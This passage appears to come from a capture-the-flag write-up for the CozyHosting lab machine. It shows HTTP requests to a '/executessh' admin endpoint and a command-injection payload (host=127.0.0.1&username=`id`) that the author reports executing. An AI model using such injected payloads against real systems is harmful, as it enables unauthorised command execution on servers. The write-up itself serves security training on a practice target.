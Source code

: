 When submitting some random values, the browser sends a POST request to `/executessh`, and the error is sent through a GET request:

```http
GET /admin?error=ssh:%20Could%20not%20resolve%20hostname%20test:%20Temporary%20failure%20in%20name%20resolution HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://cozyhosting.htb/admin
Connection: close
Cookie: JSESSIONID=14C4271D66674BA4C3901D6F6C60E76F
Upgrade-Insecure-Requests: 1

```

Seems that the host resolution happens in the website, so let's replace that with `127.0.0.1`. When that happens, the error is `Host key verification failed`. The username part seems to be passed directly into...somewhere.&#x20;

I tried some basic Command Injection using `;` and \`, and found that the latter worked.

```http
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Cookie: JSESSIONID=14C4271D66674BA4C3901D6F6C60E76F

Upgrade-Insecure-Requests: 1



host=127.0.0.1&username=`id`
```

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>
